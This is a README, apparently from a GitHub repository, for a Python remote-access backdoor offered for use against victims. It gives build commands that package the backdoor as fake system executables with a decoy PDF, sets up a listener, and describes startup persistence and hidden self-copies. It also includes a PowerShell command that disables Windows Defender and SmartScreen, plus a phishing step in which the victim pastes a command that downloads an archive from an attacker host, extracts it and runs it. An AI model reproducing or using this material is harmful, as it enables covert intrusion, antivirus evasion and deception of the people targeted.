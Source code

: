 # ⚠️ | This Backdoor dosen't bypass windows defender and other AV's completely

---
## Note :
Unobfuscated backdoor will be detected and quarintined by defender

## Requirements for this to work :
### Attacker's side :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in [Pastebin.com](https://pastebin.com)
4. If target is windows then package it in windows itself

### Victim's side :
1. Dosen't matter if he has python or not
2. Any OS is fine

## Steps to use this backdoor :
1. ### clone this repo :
    ```zsh
   git clone https://github.com/Anonomous69/Backdoor
   pip install requests pillow pyautogui
   ```

   cd to that directory (also dont forget to change the [Pastebin.com](https://pastebin.com) URL)

2. ### find your pyinstaller path and run :
#### For windows :
    ```powershell
    C:\Users\wherever\your\path\is\pyinstaller.exe --onefile --noconsole --name "WindowsExplorer" --icon="icon.ico" ——version-file=version_info.txt --add-data "sample.pdf;." Unobfuscated\plain_backdoor.py
    ```
  
#### For MacOS :    
    ```zsh
    /Users/path/to/pyinstaller --onefile --windowed --name "SystemUpdate" --icon="icon.icns" --add-data "sample.pdf:." backdoor.py
    ```

#### For Linux :
    ```shell
    pyinstaller --onefile --noconsole --name "sysupdate" --icon="icon.png" --add-data "sample.pdf:." backdoor.py
    ```

   If ran successfully the created executable will be in your newly created "Dist" directory

 5. ### Generate cerificates for SSL encryption (Do this in same directory as listener.py) :
    ```shell
    openssl req -new -x509 -days 365 -nodes -out cert.pem -keyout key.pem
    ```

4. ### Run Listener is your machine and send the backdoor to target
   ```zsh
   python listeenr.py
   ```
 when target clicks backdoor, you get the connection
 
---

# Working of this backdoor 

### 🧷 1. **Persistence Setup**
The backdoor first **adds itself to system startup locations** to maintain persistence:

- **Windows:**  
  `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

- **Linux:**  
  `~/.config/autostart`

- **macOS:**  
  `~/Library/LaunchAgents`

---

### 🕵️ 2. **Self-Copy for Stealth**
It then **copies itself to a hidden/system-like location** and re-executes from there:

- **Windows:**  
  `%TEMP%\WindowsExplorer.exe`

- **Linux:**  
  `~/.local/.sysupdate`

- **macOS:**  
  `~/Library/Application Support/.sysupdate`

---

### 📰 3. **Distraction Mechanism**
To **distract the victim**, it opens a decoy PDF file after execution.


---

# Evasion Techniques :
To Disable Defender via Administrative powershell :
Note : Must have Tamper protection off
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MpPreference -DisableScriptScanning $true; Set-MpPreference -PUAProtection 0; Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\AppHost" -Name "EnableWebContentEvaluation" -Value 0; Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer" -Name "SmartScreenEnabled" -Value "Off"
```
To avoid Cloud/Browser based detections :
1. Convert the .exe to Zip file with password protection and use email phishing 
2. Convince the victim to execute these commands assuming he has 7zip-archive installed:
Win + R and then :
```powershell
powershell -Command "Invoke-WebRequest -Uri 'http://<IP>/Windows.zip' -OutFile '$env:TEMP\Windows.zip'; & 'C:\Program Files\7-Zip\7z.exe' x '$env:TEMP\Windows.zip' -o'$env:TEMP' -p12345 -y; Start-Process '$env:TEMP\file.exe'"
```
Note : The backdoor will likely be flagged unless Defender is disabled 